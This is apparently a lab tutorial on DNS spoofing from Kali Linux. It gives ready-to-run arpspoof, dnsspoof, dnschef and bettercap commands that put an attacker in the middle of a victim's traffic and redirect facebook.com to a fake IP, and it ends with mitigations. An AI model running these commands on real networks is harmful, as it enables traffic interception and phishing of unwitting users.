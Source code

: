 ### Objective

Understand and perform DNS spoofing using different tools on Kali Linux. DNS spoofing is the process of intercepting and modifying DNS requests to redirect the victim to a different IP address.

---

## Table of Contents

1. Prerequisites
2. DNS Spoofing with `dnsspoof`
3. DNS Spoofing with `dnschef`
4. DNS Spoofing with `bettercap`
5. Local DNS Spoofing (Self-Spoofing)
6. Mitigation Techniques

---

## 1. Prerequisites

- Two devices on the same network (Attacker and Victim)
- Kali Linux as the attacker machine
- Root privileges
- Tools: dnsspoof, dnschef, bettercap
- Basic understanding of DNS and ARP

Enable IP forwarding on the attacker machine to allow traffic to pass through:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

This command enables packet forwarding so the attacker's machine can relay traffic between the victim and the internet after performing ARP and DNS spoofing.

---

## 2. DNS Spoofing with `dnsspoof`

**Step 1: Create a DNS Hosts File**

Create a file named `dnshosts` with the fake domain entries.

```bash
nano dnshosts
```

Example content:

```
192.168.1.100 facebook.com
192.168.1.100 www.facebook.com
```

This file tells `dnsspoof` to respond to DNS requests for these domains with the fake IP `192.168.1.100`.

### Step 2: Perform ARP Spoofing

You must first become a man-in-the-middle using ARP spoofing.

```bash
arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

Explanation:
- `-i eth0`: Interface to use.
- `-t 192.168.1.5`: Target IP (Victim).
- `192.168.1.1`: Gateway IP.
This tells the victim that the attacker is the gateway.

In another terminal, spoof the gateway:

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
```

This tells the router that the attacker is the victim.

### Step 3: Start `dnsspoof`

```bash
dnsspoof -i eth0 -f dnshosts
```

- `-i eth0`: Interface to listen on.
- `-f dnshosts`: Hosts file with spoofed DNS entries.

This listens for DNS queries on the network and responds with the IPs specified in `dnshosts`.

---

## 3. DNS Spoofing with `dnschef`

`dnschef` is a flexible DNS proxy that allows you to specify fake responses for any domain.

### Step 1: Start a Fake DNS Server

```bash
dnschef --fakeip 192.168.1.100 --fakedomains facebook.com,www.facebook.com
```

Explanation:
- `--fakeip`: The IP address to return.
- `--fakedomains`: Domains to spoof.

### Step 2: Change DNS Settings on Victim (or your own device)

Point the DNS server of the victim to the attacker (192.168.1.100). This can be done in the victim's network settings or forcibly via DHCP or ARP spoofing.

---

## 4. DNS Spoofing with `bettercap`

Bettercap is a powerful MITM framework that supports DNS spoofing out of the box.

### Step 1: Start Bettercap

```bash
sudo bettercap -iface eth0
```

### Step 2: Configure DNS Spoofing

In the Bettercap interactive shell:

```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 192.168.1.100
dns.spoof on
```

Explanation:
- The `dns.spoof.domains` variable sets which domain to spoof.
- `dns.spoof.address` is the IP to return in DNS replies.
- `dns.spoof on` enables DNS spoofing.

Bettercap intercepts DNS requests and responds with the spoofed IP address.

---

## 5. DNS Spoofing on Localhost (Self-Spoofing)

### Option 1: Edit `/etc/hosts`

```bash
sudo nano /etc/hosts
```

Add:
```
127.0.0.1 facebook.com
```

Any request for `facebook.com` on your machine will now point to `127.0.0.1`.

### Option 2: Use `dnschef` Locally

```bash
dnschef --fakeip 127.0.0.1 --fakedomains facebook.com,www.facebook.com
```

Set your DNS to `127.0.0.1`:

```bash
nmcli con mod "Wired connection 1" ipv4.dns "127.0.0.1"
nmcli con up "Wired connection 1"
```

Now all DNS queries for `facebook.com` go to `127.0.0.1`.

---

## 6. Mitigation Techniques

- Use DNSSEC where possible.
- Monitor DNS and ARP tables regularly.
- Use encrypted DNS (DNS over HTTPS/TLS).
- Employ firewall rules or IDS tools (Snort, Suricata) to detect spoofing attempts.

---

## Summary

| Tool       | Purpose                  | Works on LAN | Localhost Spoof | Requires ARP Spoofing |
|------------|---------------------------|--------------|------------------|------------------------|
| dnsspoof   | Network DNS spoofing      | Yes          | No               | Yes                    |
| dnschef    | Fake DNS server           | Yes          | Yes              | No (if DNS manually set) |
| bettercap  | Full MITM + DNS spoofing  | Yes          | No               | Optional               |

---

## Notes

- Always test in a legal lab environment.
- DNS spoofing is detectable with basic tools like `dig`, `nslookup`, and `Wireshark`.
- HTTPS protection (HSTS) can prevent phishing in some spoofing scenarios unless combined with SSL stripping.
